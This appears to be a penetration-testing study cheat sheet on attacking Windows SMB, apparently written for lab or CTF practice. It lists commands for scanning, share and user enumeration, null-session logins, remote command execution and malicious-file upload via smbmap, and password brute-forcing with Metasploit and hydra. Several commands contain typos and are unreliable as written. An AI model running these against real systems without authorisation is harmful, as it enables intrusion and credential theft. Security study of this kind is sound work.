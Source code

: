 ```yaml
---
description: SMB is a windows implementation of file share (server message block)
---
```


# i - SMB - 135,139,445

`nmap -T4 $ip/24 --open` - scan for open ports on a subnet.

`nmap -sV -O $ip` - run a service version and OS detection scan on a specific host.

`nmap $ip -sV -sC` - service version and default scripts for more info.

### Deleting and Creating a FileShare in windows (SMB)

`net use * /delete` - in PowerShell, we can delete a mapped drive share with the cmd.

`net use Z: \\$ip\path password /user:admin` - reconnecting/mapping a file share.

### Enumerating SMB with Nmap scripts

`nmap -p445 --script smb-protocols 192.168.0.141` - enumerating smb protocols.

`map -p445 --script smb-security-mode 192.168.0.141` - security mode scan.

`nmap -p445 --script smb-enum-sessions 192.168.0.141` - enumerating active sessions.

`nmap -p445 --script smb-enum-sessions --script-args smbusername=administrator,smbpassword=smbserver_771 $ip` - to view active sessions.

`nmap -p445 --script smb-enum-shares 192.168.0.141` - list all shares.

`nmap -p445 --script smb-enum-users 192.168.0.141` - list all users.

`nmap -p445 --script smb-server-stats --script-args smbusername=msfadmin,smbpassword=msfadmin 192.168.0.141` - server statistics.

`nmap -p445 --script smb-enum-domains --script-args smbusername=root,smbpassword=root 192.168.0.141` - enumerate domains.

`sudo nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=root,smbpassword=root 192.168.0.141` - enumerating and listing  shares.

### \[smbmap] utility

`smbmap -u guest -p "" -d . -H 192.168.0.141` - enumerating for guest acct shares.

`smbmap -H 192.168.0.141 -x 'ifconfig' -u administrator -p smbserver_771 -x 'ipconfig'` - executing the "ipconfig" cmd  by the admin with the `-x` option.

`smbmap -H 192.168.0.141 -u Administrator -p 'smbserver_771' -L` - the `-L` lists all mapped drives.

`smbmap -H 192.168.0.141 -u Administrator -p 'smbserver_771' -r 'C$'` - the `-r` lists all the content of the C drive.

`smbmap -H 192.168.0.141 -u Administrator -p 'smbserver_771' -upload '/root/malware_file' 'C$\malware_file' - we can upload a malicious file by using the` --upload\` cmd and specify the path..

`smbmap -H 192.168.0.141 -u Administrator -p 'smbserver_771' -download'C$\flag.txt' - we can download a file from the SMB server by using the` --download\` cmd.



## Samba 1

`nmap $ip -p445 --script smb-os-discovery` - OS discovery script.

### \[msfconsole] Metasploit

`use auxiliary/sscanner/smb/smb_version` , then `show options` , `set RHOSTS` , `run` - run the payload.

### \[nmblookup] utility

`nmblookup -A 192.168.0.141` - a node status lookup for the ip. When we get a "<20>" it means we have a server we can connect to. To connect, we use "smbclient" utility.

### \[smbclient] utility

`smbclient //$ip/path  -N` - logging in with no password.

`smbclient -L 192.168.0.141 -N` - listing shares and check for a NULL session with the `-N` option.

`smbclient //$ip/jane -U jane` - loggingin as jane and viewing her share.

`smbclient -L $ip -U admin` - trying to list shares as the user admin.

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

when you see an "IPC"  with a NULL session, we might be able to connect to it.

### \[rpcclient] utility

`rpcclient -U "" -N 192.168.0.141` - and we successful login.

```bash
# cmds we can run in rpcclient active session.
srvinfo  # gives info about the victim system example: os version: 6.1.

# after login, you can enumerate users
enumdomusers    # enumerate users.
enumdomgroups   # enumerate groups.
lookupnames admin    # gives us full info/SID of the admin user.
```

### \[enum4linux] utility

`enum4linux -o $ip` - enumerate OS version.

`enum4linux -U $ip` - enumerate users also.

`enum4linux -S $ip` - enumerate shares.

`enum4linux -G $ip` - enumerate groups.

`enul4linux -i $ip` - enumerating printers.

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### \[msfconsole] Metasploit

`use auxiliary/scanner/smb/smb2` , `set RHOSTS $ip` , `run` - checking for the SMB protocol versions.



## SMB Dictionary Attack

All the tricks listed above runs well using NULL sessions, but what if NULL sessions dosent work? what if we don't have login creditentials? Then we try dictionary bruteforcing attacks.

### Using Metasploit script to bruteforce

`use auxilliary/scanner/smb/smb_login` , `options` , `set RHOSTS $1p` ,  `set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt` , `set smbuser dking` - assuming we already enumerated users and "dking" is a user. `run` .

### Using \[hydra] for  bruteforce

`hydra -l admin -P /usr/share/wordlist/rockyou.txt $ip smb` - runs the attack.

`smbmap -H $ip -u admin -p` - try and login with the password you got.



## Getting other Services that Piped through SMB with Metasploit..

`use auxiliary/smb/pipe_auditor` , `set smbuser admin` , `set smbpass password1`, `set RHOSTS $ip` , `run` .

### Getting the SID's for different users.

`enum4linux -r -u "admin" -p "password1" $ip` - enumerating users using SID.





